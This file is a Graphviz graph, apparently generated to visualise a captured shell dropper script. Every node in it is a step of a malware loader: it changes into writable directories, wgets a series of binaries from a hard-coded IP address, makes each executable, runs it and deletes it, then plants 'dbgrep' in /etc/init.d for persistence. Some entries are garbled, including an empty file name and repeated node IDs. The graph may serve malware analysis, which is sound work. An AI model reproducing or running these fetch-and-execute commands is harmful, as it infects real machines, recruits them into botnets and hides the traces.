 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://188.240.223.128/lungkassssss "];
10 -> 12 [label=";,"];
12 [label="chmod +x lungkassssss "];
12 -> 14 [label=";,"];
14 [label="./lungkassssss "];
14 -> 16 [label=";,"];
16 [label="rm -rf lungkassssss "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://188.240.223.128/mangossssss "];
28 -> 30 [label=";,"];
30 [label="chmod +x mangossssss "];
30 -> 32 [label=";,"];
32 [label="./mangossssss "];
32 -> 34 [label=";,"];
34 [label="rm -rf mangossssss "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://188.240.223.128/opengglssss "];
46 -> 48 [label=";,"];
48 [label="chmod +x opengglssss "];
48 -> 50 [label=";,"];
50 [label="./opengglssss "];
50 -> 52 [label=";,"];
52 [label="rm -rf opengglssss "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://188.240.223.128/vastssss "];
64 -> 66 [label=";,"];
66 [label="chmod +x vastssss "];
66 -> 68 [label=";,"];
68 [label="./vastssss "];
68 -> 70 [label=";,"];
70 [label="rm -rf vastssss "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://188.240.223.128/greypssssss "];
82 -> 84 [label=";,"];
84 [label="chmod +x greypssssss "];
84 -> 86 [label=";,"];
86 [label="./greypssssss "];
86 -> 88 [label=";,"];
88 [label="rm -rf greypssssss "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://188.240.223.128/kuhamosssss "];
100 -> 102 [label=";,"];
102 [label="chmod +x kuhamosssss "];
102 -> 104 [label=";,"];
104 [label="./kuhamosssss "];
104 -> 106 [label=";,"];
106 [label="rm -rf kuhamosssss "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://188.240.223.128/marcossssss "];
118 -> 120 [label=";,"];
120 [label="chmod +x marcossssss "];
120 -> 122 [label=";,"];
122 [label="./marcossssss "];
122 -> 124 [label=";,"];
124 [label="rm -rf marcossssss "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://188.240.223.128/chikossssss "];
136 -> 138 [label=";,"];
138 [label="chmod +x chikossssss "];
138 -> 140 [label=";,"];
140 [label="./chikossssss "];
140 -> 142 [label=";,"];
142 [label="rm -rf chikossssss "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://188.240.223.128/pchikossssss "];
154 -> 156 [label=";,"];
156 [label="chmod +x pchikossssss "];
156 -> 158 [label=";,"];
158 [label="./pchikossssss "];
158 -> 160 [label=";,"];
160 [label="rm -rf pchikossssss "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://188.240.223.128/cosssss "];
172 -> 174 [label=";,"];
174 [label="chmod +x cosssss "];
174 -> 176 [label=";,"];
176 [label="./cosssss "];
176 -> 178 [label=";,"];
178 [label="rm -rf cosssss "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://188.240.223.128/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://188.240.223.128/facebooksss3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x facebooksss3 "];
210 -> 212 [label=";,"];
212 [label="./facebooksss3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf facebooksss3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://188.240.223.128/netdeldssssss "];
226 -> 228 [label=";,"];
228 [label="chmod +x netdeldssssss "];
228 -> 230 [label=";,"];
230 [label="./netdeldssssss "];
230 -> 232 [label=";,"];
232 [label="rm -rf netdeldssssss "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://188.240.223.128/dbgrep "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 dbgrep "];
238 -> 240 [label=";,"];
240 [label="./dbgrep "];
240 -> 241 [label=";,"];
}
